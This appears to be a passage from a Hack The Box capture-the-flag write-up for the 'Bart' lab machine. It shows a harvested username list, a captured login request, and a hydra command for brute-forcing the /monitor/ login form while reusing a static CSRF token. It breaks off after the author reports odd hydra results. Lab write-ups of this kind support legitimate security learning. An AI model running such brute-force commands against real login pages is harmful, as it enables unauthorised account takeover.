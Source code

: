 ```
developers
Recruitment
Daniella
Lamborghini
bart
htb
Mailinfo
d.simmons
info
r.hilton
s.brown
h.potter
```
Probably could have done some fancy stuff with `sed`, but the tunes were going strong, and I was feeling the repeat action key in `vim`. 


## Hackin' an Crackin' 

Before we do that we just need to see what the request looks like in Burpsuite. 

```
POST /monitor/ HTTP/1.1
Host: bart.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://bart.htb/monitor/
Cookie: PHPSESSID=989g1h8q69u2ujofuesb7mo96h
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 116

csrf=1526c861227699108f9a1411616359fc2a35d8ab1558f8f4a25e924a1e128a40&user_name=balh&user_password=blah&action=login
```

Sick, so it's a post form, although that CSRF token looks like it could be a problem...

Does it change with each request? 

Thankfully, no it doesn't appear to change. Dodged a bullet there. 

`hydra http://bart.htb/monitor -f -V -L user_list -P user_list http-post-form "/monitor/:csrf=1526c861227699108f9a1411616359fc2a35d8ab1558f8f4a25e924a1e128a40&name=^USER^&password=^PASS^:The information is incorrect."`

Hmmm, `hydra` is throwing up some funky results, and I suspect it may have something to do with the rendering on the page. If you try and highlight something you don't appear to be able to, something in the way the page is being rendered is preventing `hydra` from seeing the error message, even though we can see it in the page and the Burp response. 
